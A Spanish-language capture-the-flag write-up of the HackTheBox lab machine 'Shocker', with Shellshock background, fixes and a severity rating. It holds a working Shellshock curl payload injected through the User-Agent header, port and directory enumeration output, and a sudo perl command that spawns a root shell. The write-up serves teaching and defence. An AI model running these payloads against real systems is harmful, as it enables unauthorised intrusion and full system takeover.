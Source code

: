 ```yaml
---
layout: single
title:  Shocker
excerpt: "Maquina Shocker de la Plataforma HackTheBox, posee una dificultad facil con una vulnerabilidad bastante conocida que la época en que fue descubierto afectó a millones de servidores. públicos"
date: 2021-07-20
classes: wide
header:
    teaser: /assets/images/htb/shocker/portada.png
    teaser_home_page: true
categories:
    - WriteUp
tags:
    - Linux
    - HTB
---
```



# Sistema Vulnerable: 10.10.10.56
## Explicacaión de la vulnerabilidad.
Shellshock apareció por primera vez en septiembre de 2014. Hubo informes de ataques a las pocas horas de la divulgación inicial de la vulnerabilidad, y en los días siguientes, hubo millones de ataques y sondeos provenientes de botnets.  
Bash es un shell o intérprete que permite que los comandos se ejecuten en un sistema, generalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix, y como tal, se puede encontrar en Linux, macOS y otros varios sabores de Unix. Esta es la razón por la que Shellshock es tan grave: más de la mitad de los servidores web en Internet ejecutan Unix, sin mencionar una gran cantidad de dispositivos IoT e incluso algunos enrutadores/módems.  


Esencialmente, Shellshock funciona al permitir que un atacante agregue comandos a las definiciones de funciones en los valores de las variables de entorno. Esto se clasificaría como un tipo de ataque de inyección de código, y dado que Bash procesará estos comandos después de la definición de la función, se puede ejecutar casi cualquier código arbitrario.  
Shellshock es en realidad una familia completa de vulnerabilidades que consiste en múltiples vectores de explotación.  

[- https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit)  
[- https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))  


## Vulnerabilidad de escalamiento de privilegios:  
sudo es un programa que permite a los usuarios ejecutar otros programas con privilegios de otros usuarios. De forma predeterminada, ese otro usuario será root.
Un usuario generalmente necesita ingresar su contraseña para usar sudo, y se debe permitir el acceso a través de reglas en el archivo **/etc/sudoers**.   
[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)  

------

## Corrección de la vulnerabilidad:
- Actualize bash a su versión mas reciente de su sistema.  
- Configurar de manera eficaz los permisos que se otorgan a los usuarios del sistema.  

## Gravedad :
Crítica

## Prueba de concepto:
[- https://www.exploit-db.com/exploits/34766](https://www.exploit-db.com/exploits/34766)  
```bash
$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### Enumeración:
Enumeración de puertos TCP
```bash
$ nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

$ nmap -p 80,2222 -sCV -oN targeted 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```

## Pasos para explotar el sistema:
### Punto de apoyo:
<p align="center">
<img src="/assets/images/htb/shocker/1.PNG">
</p>

Fuerza bruta al servidor web.  
```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ -c -t 200
                                                                                                                          
        /'___\  /'___\           /'___\                                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                   

       v1.3.0 Kali Exclusive <3
________________________________________________                              
                                                                                              
 :: Method           : GET                                                                    
 :: URL              : http://10.10.10.56/FUZZ                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt                           
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                                                 
 :: Threads          : 200                                                                    
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                 
________________________________________________                                    
                                                                                              
                        [Status: 200, Size: 137, Words: 9, Lines: 10]                   
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]                                                    
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]                        
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]                        
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]                                                     
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]                                                    
:: Progress: [4615/4615] :: Job [1/1] :: 597 req/sec :: Duration: [0:00:04] :: Errors: 0 ::   

```

<p align="center">
<img src="/assets/images/htb/shocker/2.PNG">
</p>

Fuerza bruta al sistema web enumerando archivos con extension sh, py,pl,cgi.
```bash
$ gobuster dir -q -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,py,pl,cgi -t 200 
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.py (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.py (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.hta (Status: 403)
http://10.10.10.56/cgi-bin/.hta.sh (Status: 403)
http://10.10.10.56/cgi-bin/.hta.py (Status: 403)
http://10.10.10.56/cgi-bin/.hta.pl (Status: 403)
http://10.10.10.56/cgi-bin/.hta.cgi (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)
```

Visualizando el recurso encontrado.  
```bash
$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:20:37 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
 ```

### Obteniendo shell inversa:
<p align="center">
<img src="/assets/images/htb/shocker/3.PNG">
</p>


### Escalada de privilegios:
```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)

```
